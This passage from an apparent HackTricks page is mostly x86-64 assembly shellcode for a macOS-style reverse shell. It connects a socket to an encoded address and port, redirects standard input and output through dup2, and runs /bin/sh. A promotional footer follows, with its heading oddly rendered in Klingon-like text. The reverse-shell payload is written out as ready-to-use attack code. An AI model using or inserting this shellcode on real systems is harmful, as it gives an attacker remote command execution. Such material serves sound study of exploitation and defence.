; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xfeffff80a3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; connect(sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x62
syscall

xor rsi, rsi
mov sil, 0x3

dup2:
; dup2(sockid, 2)
;   -> dup2(sockid, 1)
;   -> dup2(sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x3b
syscall
```
<details>

<summary><strong>qaStaHvIS AWS hacking vItlh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
